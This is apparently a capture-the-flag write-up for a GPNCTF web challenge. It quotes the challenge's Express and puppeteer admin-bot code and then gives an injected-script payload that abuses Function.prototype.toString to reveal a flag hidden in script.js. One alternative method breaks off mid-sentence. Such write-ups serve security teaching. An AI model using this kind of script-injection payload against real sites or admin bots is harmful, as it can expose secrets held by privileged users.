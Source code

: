 <img width="383" alt="Untitled (1)" src="https://github.com/AdamZvara/CTF/assets/36104483/51c5c835-05f6-4870-8d12-f0d0b5511253"># Description

I made a JS API! Sadly I had no time to finish it :(

# Solution

`server.js` and `script.js` are the most important parts of this challenge, so let's take a look at them.

### server.js

The first endpoint of the server is the `/chal`, which enables you to run whatever code you provide it 
(although I did not use this part of web to solve the challenge).
```javascript
app.post('/chal', (req, res) => {
    const { html } = req.body;
    res.setHeader("Content-Security-Policy", "default-src 'none'; script-src 'self' 'unsafe-inline';");
    res.send(`
        <script src="/script.js"></script>
        ${html}
    `);
});
```

Another endpoint is at `/admin`, which is a little bit more interesting. It uses puppeteer to launch a new browser, 
creates a new cookie with randomBytes (will be useful later), then runs whatever code you give it and takes a screenshot of 
the result.
```javascript
app.post('/admin', async (req, res) => {
    try {
        const { html } = req.body;
        const browser = await puppeteer.launch({ executablePath: process.env.BROWSER, args: ['--no-sandbox'] });
        const page = await browser.newPage();
        page.setCookie({ name: 'flag', value: randomBytes, domain: 'localhost', path: '/', httpOnly: true });
        await page.goto('http://localhost:1337/');
        await page.type('input[name="html"]', html);
        await page.click('button[type="submit"]');
        await new Promise(resolve => setTimeout(resolve, 2000));
        const screenshot = await page.screenshot({ encoding: 'base64' });
        await browser.close();
        res.send(`<img src="data:image/png;base64,${screenshot}" />`);
    } catch(e) {console.error(e); res.send("internal error :( pls report to admins")}
});
```

And lastly we have the `/script.js` endpoint, which returns the contents of the `script.js` file and if cookie value
is randomBytes (the same value is set in `/admin`!), it replaces the fake flag with the real one (in `script.js`).
```
app.get('/script.js', (req, res) => {
    res.type('.js');
    let response = script;
    if ((req.get("cookie") || "").includes(randomBytes)) response = response.replace(/GPNCTF\{.*\}/, flag)
    res.send(response);
});
```

For completeness' sake here is the contents of the `/script.js`:
```javascript
class FlagAPI {
    constructor() {
        throw new Error("Not implemented yet!")
    }

    static valueOf() {
        return new FlagAPI()
    }

    static toString() {
        return "<FlagAPI>"
    }

    // TODO: Make sure that this is secure before deploying
    // getFlag() {
    //     return "GPNCTF{FAKE_FLAG_ADMINBOT_WILL_REPLACE_ME}"
    // }
}
```

So the goal is to pass some code into the `/admin` endpoint to also access the `/scipt.js` file:
1. one way how to do it to use the `Function.prototype.toString` of javascript to print the source code of
   `script.js`. We can for example set the `FlagAPI.valueOf = Function.prototype.toString` and then call `FlagAPI.valueOf()`.
   So the overall payload is
   ```javascript
   <script>
     FlagAPI.valueOf = Function.prototype.toString;
	   document.write(FlagAPI.valueOf());
   </script>
   ```
2. another way to solve it is to redirect to the `/script.js` directly with `document.location.replace('/script.js

Anyways, we get the flag:

<img width="383" alt="Untitled (1)" src="https://github.com/AdamZvara/CTF/assets/36104483/51566556-a62f-4ceb-8fc0-0201ecf375f0">
